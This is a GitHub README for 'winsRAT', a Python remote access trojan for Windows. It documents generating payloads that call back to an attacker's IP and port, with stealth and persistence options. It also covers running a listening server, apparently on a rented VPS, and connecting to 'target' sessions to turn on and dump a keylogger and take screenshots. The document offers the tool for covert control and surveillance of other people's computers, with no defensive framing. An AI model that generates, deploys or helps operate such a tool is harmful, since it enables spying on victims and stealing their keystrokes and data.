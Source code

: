 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    winsRAT Under continuous development
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> Windows RAT</h4>



## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.



### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
$ git clone https://github.com/ThemeHackers/winsRAT
$ cd winsRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>


```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```



```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

<h6 align="center"><img src=""></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind -a 0.0.0.0 -p 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src=""></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89172191-d9464980-d59f-11ea-988c-9986b52642e7.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
